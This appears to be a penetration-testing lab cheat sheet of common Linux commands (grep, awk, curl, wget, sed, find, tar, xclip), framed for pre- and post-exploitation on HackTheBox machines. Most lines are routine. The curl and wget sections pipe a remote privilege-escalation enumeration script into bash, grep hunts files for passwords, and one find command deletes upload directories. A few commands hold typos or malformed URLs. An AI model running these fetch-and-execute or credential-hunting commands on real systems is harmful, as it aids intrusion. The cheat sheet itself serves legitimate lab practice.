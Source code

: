 ### Post \ Pre Exploitation

- [ls](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#ls)
- [Grep](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#grep)
- [AWK](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#awk)
- [Curl](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#curl)
- [wget](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#wget)
- [Compression and decompression of files](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#compressing-and-decompressing)
- [Find](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#find)
- [xclip](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#xclip)
- [Misc](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#misc)
- [bashLoops](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#bash-loops)
- [sed](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#sed)
- [tr](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#tr)


#### ls
```bash
# list files
ls

# list hidden files
ls -la

# list files with human readable size
la -sh
```

#### Grep
```bash
# search for the files that contains the phrase password in it
grep -ir password
grep -iRl "password" ./

# exclude multiple strings
grep -Ev 'exclude1 | exclude 2' filename.txt

# obtain only lines starting with small letters
grep -v '[A-Z]' users.txt
```


#### AWK
```bash
# simple grab based on spaces, damnedsec cyberwr3nch hackthebox
awk '{print $1}' # output damnedsec

# multiple field seperator, obtain things only with in the delimeter
# contents of the file-> user: cyberwr3nch: damnedsec;123
awk -F: '{print $3}' users.txt # output damnedsec;123

# contents of users.txt -> user:[BLACKFIELD764430] rid:[0x451], 
awk -F"[][]" '{print $2}' users.txt # output: BLACKFIELD764430

# obtain contents from a specific line
# where x is the line number	
awk 'NR==x {print $1}'

# print lines form a specific line to the end of the file
awk 'NR>x' users.txt

# omit all the blank lines in a file
awk 'NF'
```

#### Curl
```bash
# make http, http2, http3 requests with curl
curl -vv http://10.10.10.10
curl --http2 http://10.10.10.10
curl --http3 http://10.10.10.10

# obtain only the response header
curl --head http://10.10.10.10.

# upload files via curl
curl --user "{user}:{creds}" --upload-file=<file> "http://10.10.10.10/upload_location"

# curl save the output
curl http://10.10.10.10 -o index.html

# pipe the requesting files
curl http://10.10.10.10:<port_no>:lin(peas\|enum).sh | bash
```

#### Wget
```bash
# download files with wget
wget http://10.10.10.10/xxx.sh

# run files without downloading
wget -O - http://10.10.10.11:<port_no>:lin(peas\|enum).sh
```

#### SED
```bash
# search and replace strings
cat username.txt | sed s/{stringToBeChanged}/{replacementString}/g

# replace the last ',' with a null character
cat usernames.txt | sed s/,$//

# add \x after every two characters, the .. denotes the two characters, \x&, adds \x and & doesnt delete the characters that were before
cat hexpayload.txt | sed 's/../\\x&/g'
```

#### tr
```bash
# translate new lines '\n' into ','; used in HTB nmap
cat usernames.txt | tr '\n' ','
```


#### Find
```bash
# find with file names
find . -name user.txt 

# find and execute
find . -name '*.txt' -exec cat "{}" \;

# {} is used as the place holder and tells the follwing to as an argument
# find directories with the specified name and execute the command
find . -type d -name uploads -exec rm -rf "{}" ';'

# find and copy files 
find -name 'file.ext' -exec cp "{}" <copy_path>  \;

# find the recently modified files
# maxdepth - sub directories, newermt - timestamp
find . -maxdepth 1 -newermt "2016-12-06"

# find files with specific string in it
find . -type f -print0 | xargs -0 -e grep -niH -e "your common word to search"
```

#### Compressing and Decompressing
```bash
# zip a folder with its contents
zip -r -9 html.zip /var/www/html

# unzip a zip file
unzip html.zip

# tar a file
tar cvf html.tar html/

# extract a .tar file
tar -xvf html.tar 

# tar.gz a folder
tar cvfz html.tar.gz html/

# unzip a *.tar.gz file
tar -xzvf html.tar.gz

# unzip rar file
unrar x html.rar
```

#### Xclip
```bash
# installation
sudo apt-get install xclip

# copying contents from a file and pasting it with 'mouse scroll button'
cat user.txt | xclip

# copying file and using cttl + v for pasting
cat user.txt | xclip -sel clip
cat user.txt | xclip -selection clipboard

# copy the contents in the primary clipboard
cat user.txt | xclip -selection primary
```

#### Misc
```bash
# monitor, repeat the same command for a period of time
# ls -la every 1 sec on a dir
watch -n 1 'ls -la'
```

#### Bash Loops
```bash
# for loop that adds payload += in each line of the file
for i in $(cat hexdata); do echo "payload += b'$i'"; done
```
